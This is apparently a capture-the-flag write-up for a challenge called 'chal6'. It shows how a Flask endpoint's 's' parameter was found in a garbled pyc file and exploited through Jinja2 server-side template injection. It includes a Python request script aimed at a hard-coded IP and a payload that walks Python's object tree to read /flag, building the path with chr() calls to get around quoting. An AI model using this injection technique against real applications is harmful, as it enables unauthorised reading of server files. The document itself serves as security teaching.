 # chal6

## Description

Browsing to the address given in the challenge returns a grabled `pyc` [file](./index.html).

## Analysis

The file is mostly unreadable and of little use in its current form. It should be possible to restore the file to a working state and then decompile it using Python reverse engineering utilities. 

A simpler heuristic approach is also viable. By examining the readable characters one can find the `/echo` endpoint and guess that it accepts an `s` parameter. It is also worth noting that the file includes references to `render_template`, `render_template_string` and `Flask`. This can be used to infer that inputs given to the application will be parsed using the Jinja2 templating engine.

Jinja2 doesn't exactly allow for embedding arbitrary Python expressions but it is possible to [traverse the object tree](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#read-remote-file) to reach useful functions such as `file()`.

## Solution

Using a simple script for executing arbitrary templates helps the process of finding the right input a lot.

```python
#!/usr/bin/env python3
import requests
import sys

r = requests.get(
    "http://45.76.80.234:8082/echo",
    params={"s": "{{%s}}" % sys.argv[1]}
)

print(r.text)
```

For some reason using quoted strings didn't work so a workaround had to be used - the string `/flag` is built from individual bytes.

```
./inject.py "[].__class__.__base__.__subclasses__().pop(40)(config.__class__.__init__.__globals__.__builtins__.chr(47)~config.__class__.__init__.__globals__.__builtins__.chr(102)~config.__class__.__init__.__globals__.__builtins__.chr(108)~config.__class__.__init__.__globals__.__builtins__.chr(97)~config.__class__.__init__.__globals__.__builtins__.chr(103)).read()"
junior-inject_it_like_its_hot
```
